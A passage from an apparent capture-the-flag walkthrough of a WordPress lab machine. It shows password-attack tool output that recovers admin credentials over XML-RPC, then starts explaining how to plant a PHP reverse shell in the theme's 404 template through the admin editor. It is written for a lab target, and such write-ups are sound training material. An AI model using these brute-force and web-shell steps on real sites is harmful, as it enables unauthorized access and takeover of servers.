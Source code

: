 ```
.
.

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / ER28-0652
All Found
Progress Time: 00:00:51 <===================================

[i] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Mon Mar  2 07:49:18 2020
[+] Requests Done: 65
[+] Cached Requests: 5
[+] Data Sent: 15.811 KB
[+] Data Received: 1.27 MB
[+] Memory used: 180.98 MB
[+] Elapsed time: 00:00:58
```

|Username|Password|
|---|---|
|Elliot|ER28-0652|

Let's try login with those credentials.

http://10.0.2.5/wp-login

Success! And we are an admin user.

## Reverse Shell

Wordpress provides a useful interface to allow adminstrators to edit the them in real time via the wordpress interface - since wordpress themes are just PHP files
this essentially means arbitrary code execution.

Terrible practice all around but very convenient for us. We can use the arbitrary code execution to setup a reverse shell and get access to the underlying VM.

Tools:
 * [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

[php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) is a useful script which lets us setup a reverse shell with minimal effort.

We'll make the code run by embedding it in the wordpress template for 404 pages. In the wordpress menu go to `Appearance` > `Editor` and select `404 Template (404.php)` from the list of templates on the right.
